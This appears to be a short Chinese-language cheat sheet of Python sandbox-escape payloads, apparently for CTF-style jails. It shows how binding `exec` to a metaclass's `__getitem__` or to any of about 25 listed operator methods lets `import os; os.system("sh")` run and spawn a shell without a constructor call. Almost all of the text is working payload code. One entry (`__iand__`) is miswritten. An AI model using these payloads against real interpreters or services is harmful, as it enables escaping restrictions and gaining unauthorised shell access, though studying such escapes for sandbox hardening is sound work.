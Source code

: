 下面是基于元类的 payload, 在不使用构造函数的情况下触发

```
class Metaclass(type):
    __getitem__ = exec 
    
class Sub(metaclass=Metaclass):
    pass

Sub['import os; os.system("sh")']
```

除了 `__getitem__` 之外其他方法的利用方式如下:

```
__sub__ (k - 'import os; os.system("sh")')
__mul__ (k * 'import os; os.system("sh")')
__floordiv__ (k // 'import os; os.system("sh")')
__truediv__ (k / 'import os; os.system("sh")')
__mod__ (k % 'import os; os.system("sh")')
__pow__ (k**'import os; os.system("sh")')
__lt__ (k < 'import os; os.system("sh")')
__le__ (k <= 'import os; os.system("sh")')
__eq__ (k == 'import os; os.system("sh")')
__ne__ (k != 'import os; os.system("sh")')
__ge__ (k >= 'import os; os.system("sh")')
__gt__ (k > 'import os; os.system("sh")')
__iadd__ (k += 'import os; os.system("sh")')
__isub__ (k -= 'import os; os.system("sh")')
__imul__ (k *= 'import os; os.system("sh")')
__ifloordiv__ (k //= 'import os; os.system("sh")')
__idiv__ (k /= 'import os; os.system("sh")')
__itruediv__ (k /= 'import os; os.system("sh")') (Note that this only works when from __future__ import division is in effect.)
__imod__ (k %= 'import os; os.system("sh")')
__ipow__ (k **= 'import os; os.system("sh")')
__ilshift__ (k<<= 'import os; os.system("sh")')
__irshift__ (k >>= 'import os; os.system("sh")')
__iand__ (k = 'import os; os.system("sh")')
__ior__ (k |= 'import os; os.system("sh")')
__ixor__ (k ^= 'import os; os.system("sh")')
```

示例:

```
class Metaclass(type):
    __sub__ = exec
    
class Sub(metaclass=Metaclass):
    pass

Sub-'import os; os.system("sh")'
```

